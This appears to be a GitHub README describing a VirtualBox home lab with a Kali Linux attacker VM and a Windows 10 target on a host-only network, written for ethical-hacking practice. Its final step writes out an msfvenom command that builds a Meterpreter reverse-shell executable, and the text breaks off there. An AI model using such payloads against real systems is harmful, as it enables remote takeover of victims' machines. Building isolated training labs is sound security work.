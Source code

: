 # 🧪 Cybersecurity Home Lab Setup 
---

## 📄 Description

This project sets up a virtualized cybersecurity lab using VirtualBox to simulate attacker-victim scenarios. It includes configuring a Kali Linux attacker machine and a Windows 10 target machine on a host-only/internal network. The environment provides a safe and isolated setup for testing network attacks, reverse shells, and other ethical hacking techniques.

---

## 🖥️ Environments Used

- **Host OS**: Windows 10 or macOS
- **Virtualization**: VirtualBox (v7.x) + Extension Pack
- **Attacker VM**: Kali Linux
- **Target VM**: Windows 10 (Eval or ISO)

---

## 🛠️ Languages and Tools Used

- VirtualBox
- Kali Linux Tools (nmap, msfvenom, etc.)
- Windows Sysinternals
- Meterpreter (Metasploit Framework)

---

## ⚙️ Program Walkthrough

---

### 1. Install VirtualBox & Extension Pack

Install Oracle VirtualBox and its Extension Pack from [virtualbox.org](https://www.virtualbox.org/).

📸 *Screenshot Example:*  
![VirtualBox Installed](./screenshots/virtualbox-launch.png)

---

### 2. Create Virtual Machines

Create two VMs with these specs:

| VM        | RAM    | Disk Size | OS         |
|-----------|--------|-----------|------------|
| Kali      | 2 GB   | 20 GB     | Kali Linux |
| Windows   | 4 GB   | 40+ GB    | Windows 10 |

📸 *Screenshot Example:*  
![VM Creation](./screenshots/kali-vm-details.png)

---

### 3. Configure Network (Host-Only)

Set both VMs to the **Host-Only Adapter** to allow isolated communication.

📸 *Screenshot Example:*  
![Network Config](./screenshots/network-config.png)

---

### 4. Boot VMs and Set IP Addresses

Use `ip a` on Kali and `ipconfig` on Windows to confirm both VMs are on the same subnet.

📸 *Screenshot Example:*  
![Kali IP](./screenshots/kali-ip.png)  
![Windows IP](./screenshots/windows-ip.png)

---

### 5. Install Guest Additions (Windows Only)

Fix resolution on Windows VM by installing Guest Additions.

📸 *Screenshot Example:*  
![Guest Additions](./screenshots/guest-additions.png)

---

### 6. Test Connectivity

Ping each machine from the other to confirm they’re connected.

📸 *Screenshot Example:*  
![Ping Test](./screenshots/ping-test.png)

---

### 7. Generate & Deploy Payload (Optional Preview)

In later parts, we generate a reverse shell using `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.56.101 lport=4444 -f exe > shell.exe


